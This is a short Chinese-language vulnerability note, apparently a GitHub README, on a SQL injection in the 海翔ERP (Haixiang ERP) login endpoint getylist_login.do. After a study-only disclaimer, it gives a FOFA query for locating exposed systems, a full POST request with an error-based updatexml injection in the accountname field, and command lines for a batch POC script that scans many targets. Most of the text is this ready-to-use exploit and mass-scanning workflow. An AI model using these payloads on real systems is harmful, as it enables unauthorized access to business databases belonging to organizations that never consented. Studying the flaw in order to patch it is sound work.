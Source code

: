 # 海翔ERP getylist_login.do SQL注入漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa语法

***\*body="checkMacWaitingSecond"\****

POC:

POST /getylist_login.do HTTP/1.1

Host: 

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

Connection: close

Content-Length: 77

Accept-Encoding: gzip

Content-Type: application/x-www-form-urlencoded; charset=UTF-8



accountname=test' and (updatexml(1,concat(0x7e,(select md5(123)),0x7e),1));--



![image-20231223223607591](assets/image-20231223223607591.png)



批量poc(记得安装库)

python poc.py -u 



python poc.py -f  .txt

![image-20231223223806747](assets/image-20231223223806747.png)
